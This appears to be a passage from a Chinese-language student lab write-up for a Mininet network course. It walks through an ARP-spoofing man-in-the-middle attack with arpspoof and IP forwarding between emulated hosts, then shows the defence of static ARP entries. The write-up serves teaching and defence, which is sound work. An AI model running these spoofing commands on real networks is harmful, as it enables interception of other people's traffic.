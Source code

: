     root@ubuntu:/home/ubuntu/S110710546-mininet# apt-get install dnsiff

### 2. 開啟`h3`終端輸入以下操作
* `h1` : 10.0.0.1、`h2` : 10.0.0.2、`h3` : 10.0.0.3
```
root@ubuntu:/home/ubuntu/S110710546-mininet# arpspoof -i h3-eth0 -t 10.0.0.1 10.0.0.2
```
> `-t 10.0.0.1 10.0.0.2` : 攻擊`h1`，告訴`h1`我就是`h2`。
>
>這樣我們就可以收到`ping request`的封包，但我們還需要`ping reply`的封包給`h1`。

```
root@ubuntu:/home/ubuntu/S110710546-mininet# arpspoof -i h3-eth0 -t 10.0.0.2 10.0.0.1
```
>同理，這樣我們就可以把`h2`給`h1`的`ping reply`封包轉交給`h1`了。

### 3. 開啟`h3`路由功能。

    root@ubuntu:/home/ubuntu/S110710546-mininet# echo 1 > /proc/sys/net/ipv4/ip_forward

## ARP欺騙防範

### 1. 開啟`h1`終端介面輸入
    
    root@ubuntu:/home/ubuntu/S110710546-mininet# arp -s 10.0.0.2 00:00:00:00:00:02

### 2. 開啟`h2`終端介面輸入

    root@ubuntu:/home/ubuntu/S110710546-mininet# arp -s 10.0.0.1 00:00:00:00:00:01
### 總結
* `arp -d [IP]` : 刪除ARP紀錄

簡單來說就是綁定ARP紀錄，直接告訴***網橋*** `h2`和`h1`的IP + 網卡卡號，這樣 ***網橋*** 就會把封包直接傳過去。
不會再發一個***ARP請求***出來。